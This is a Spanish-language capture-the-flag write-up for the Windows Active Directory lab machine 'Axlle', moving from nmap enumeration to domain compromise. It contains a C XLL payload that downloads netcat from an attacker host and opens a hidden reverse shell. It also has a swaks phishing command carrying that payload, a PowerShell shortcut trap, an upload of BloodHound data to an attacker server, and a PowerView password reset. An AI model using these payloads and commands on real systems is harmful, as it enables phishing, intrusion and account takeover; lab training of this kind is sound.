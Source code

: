 #ActiveDirectory #hard #windows 
### Ping

```python
❯ ping -c 1 10.10.11.21
PING 10.10.11.21 (10.10.11.21) 56(84) bytes of data.
64 bytes from 10.10.11.21: icmp_seq=1 ttl=127 time=151 ms

--- 10.10.11.21 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 151.127/151.127/151.127/0.000 ms
```

### TTL = 127 Windows

### nmap

```python
❯ sudo nmap -p- -open -sCV --min-rate 5000 -n -Pn 10.10.11.21 -oN Scan
[sudo] password for gleoq: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-27 19:21 EDT
Nmap scan report for 10.10.11.21
Host is up (0.15s latency).
Not shown: 65512 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE       VERSION
25/tcp    open  smtp          hMailServer smtpd
| smtp-commands: MAINFRAME, SIZE 20480000, AUTH LOGIN, HELP
|_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Axlle Development
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-06-27 23:22:29Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: axlle.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: axlle.htb0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2024-06-27T23:23:59+00:00; -3s from scanner time.
| ssl-cert: Subject: commonName=MAINFRAME.axlle.htb
| Not valid before: 2024-05-19T11:25:03
|_Not valid after:  2024-11-18T11:25:03
| rdp-ntlm-info: 
|   Target_Name: AXLLE
|   NetBIOS_Domain_Name: AXLLE
|   NetBIOS_Computer_Name: MAINFRAME
|   DNS_Domain_Name: axlle.htb
|   DNS_Computer_Name: MAINFRAME.axlle.htb
|   DNS_Tree_Name: axlle.htb
|   Product_Version: 10.0.20348
|_  System_Time: 2024-06-27T23:23:21+00:00
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        .NET Message Framing
49169/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49170/tcp open  msrpc         Microsoft Windows RPC
49175/tcp open  msrpc         Microsoft Windows RPC
49664/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
52440/tcp open  msrpc         Microsoft Windows RPC
61423/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: MAINFRAME; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: mean: -3s, deviation: 0s, median: -3s
| smb2-time: 
|   date: 2024-06-27T23:23:24
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 129.59 seconds
```

### Enumeración del puerto 80 (http)
parece que no podemos ver nada explotable en la web. así que vamos a seguir enumerando
![[Pasted image 20240627192751.png]]

parece que podemos hacer algún tipo de petición al correo `acconunts@axlle.htb` 
![[Pasted image 20240629111401.png]]

### DLL Hijacking
con este script en C vamos a intentar hacer una petición DLL

```python
#include <windows.h>
#include <urlmon.h>
#pragma comment(lib, "urlmon.lib")
__declspec(dllexport) short __stdcall xlAutoOpen()
{
HRESULT hr = URLDownloadToFileW(NULL, L"http://10.10.14.15:80/nc64.exe", L"C:\\Windows\\Tasks\\nc64.exe", 0,
NULL);
if (SUCCEEDED(hr)) {
WinExec("C:\\Windows\\Tasks\\nc64.exe -e cmd 10.10.14.15 443", SW_HIDE);
}
return 0;
}
```

### Compilamos el  dll con mingw-w64

```python
>	sudo apt install mingw-w64


>	x86_64-w64-mingw32-gcc -shared -o exploit.dll exploit.c -Wl,--output-def,exploit.def -lurlmon
```

### cambiamos la extensión del script

```python
>	mv exploit.dll exploit.xll
```

### Enviamos el XLL a accounts@axlle.htb vía SMTP

```python
swaks --to "accounts@axlle.htb" --from "gleoq@axlle.htb" --header "Subject: Open this exploit" --body "This is a picture of my girlfriend" --attach-type application/octet-stream --attach @exploit.xll --server axlle.htb --port 25 --timeout 20s
```

![[Pasted image 20240629113053.png]]

### Enumeración del sistema
abajo a la derecha podemos observar la terminal. de la maquina victima. he conseguido un archivo `xml` con información importante 

```python
type C:\Program Files (x86)\hMailServer\Data\axlle.htb\dallon.matrix\2F\{2F7523BD-628F-4359-913E-
A873FCC59D0F}.eml
```

![[Pasted image 20240629114836.png]]

### Reverse shell
creamos un `exploit con msfvenom` y lo compartimos con la maquina victima con un servidor python
![[Pasted image 20240629115953.png]]

### msfconsole

![[Pasted image 20240629120522.png]]

`ejecutamos el exploit `
#Nota: la shell debe estar subida en el directorio `c:\programdata\` no en `Temp` como se muestra en la imagen
![[Pasted image 20240629120649.png]]

### shortcut C:\inetpub\testing\
vamos a crear un shortcut en el directorio `C:\inetpub\testing\` 

```python
powershell
$objShell = New-Object -ComObject WScript.Shell
$lnk = $objShell.CreateShortcut("C:\inetpub\testing\Notepad.url")
$lnk.TargetPath = "c:\programdata\shell.exe"
$lnk.Save()
```

![[Pasted image 20240629122907.png]]

### meterpreter
después de crear el shortcut solo debemos esperar para obtener la reverse shell
![[Pasted image 20240629122940.png]]

### SharpHound
subimos el `SharpHound.exe` a la maquina victima
![[Pasted image 20240629124118.png]]

ejecutamos el `./SharpHound.exe` y luego usando el `PSUpload.ps1` podemos enviarnos el archivo a la maquina atacante

```python
Invoke-FileUpload -Uri http://10.10.14.47:8000/upload -File "20240629101749_BloodHound.zip"
```

![[Pasted image 20240629132729.png]]

### PowerView.ps1

```python
>	Import-Module .\PowerView.ps1

>	$NewPassword = ConvertTo-SecureString 'RespectMeOnHTB!' -AsPlainText -Force

>	Set-DomainUserPassword -Identity 'jacob.greeny' -AccountPassword $NewPassword
```

![[Pasted image 20240629143532.png]]

### EvilWinrm




### Vulnerabilidades

| CVE-XXXX-XXXXX | Nombre de la vulnerabilidad | Tipo | Nivel | Link |
| -------------- | --------------------------- | ---- | ----- | ---- |
|                |                             |      |       |      |
|                |                             |      |       |      |
|                |                             |      |       |      |
